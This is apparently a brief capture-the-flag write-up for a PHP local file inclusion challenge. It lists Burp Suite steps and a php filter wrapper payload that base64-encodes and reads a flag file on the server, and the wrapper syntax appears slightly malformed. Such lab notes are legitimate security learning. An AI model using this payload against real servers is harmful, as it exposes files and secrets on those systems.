 # TITLE : php-1

# Concept : PHP LFI Vulnerbility

```
1. using the burp suite
2. Detected attack point link
3. use php filter & burp suite repeater
4. command is
php:filter/convert.base64-encode/resource=/var/www/www/uploads/flag

```
